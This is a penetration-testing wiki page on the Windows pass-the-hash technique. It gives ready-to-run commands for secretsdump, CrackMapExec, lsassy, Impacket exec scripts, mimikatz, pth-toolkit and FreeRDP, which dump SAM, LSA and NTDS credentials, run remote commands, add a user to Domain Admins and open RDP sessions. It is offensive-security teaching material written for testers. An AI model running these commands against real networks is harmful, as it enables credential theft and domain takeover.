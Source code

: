 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM \(pass-the-hash\) \(or indirectly over Kerberos with [overpass-the-hash](../abusing-kerberos/overpass-the-hash.md)\).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) \(Python\) \([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...\), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\), [FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\), [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\), [lsassy](https://github.com/Hackndo/lsassy) \(Python\), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) has the ability to remotely dump hashes and LSA secrets from a machine \(`LMhash` can be empty\) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module \(see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)\).

```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash \(`LMhash` can be empty\).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can pass-the-hash and open an elevated command prompt.

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) can be used from a Linux system to operate LDAP queries, add a user to a group and so on \(`LMhash` can be `ffffffffffffffffffffffffffffffff`\).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC \(User Account Control\) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account \(RID-500, "Administrator"\) is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account \(RID-500, "Administrator"\) to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights \(such as [SAM & LSA secrets dump](../credentials/dumping/sam-and-lsa-secrets.md)\). These operations can instead be conducted with a [Silver Ticket](../abusing-kerberos/forged-tickets.md#silver-ticket) since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes \(NTDS.dit\)](../credentials/dumping/ntds.dit.md). 
{% endhint %}

## References

{% embed url="https://en.hackndo.com/pass-the-hash/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" caption="" %}

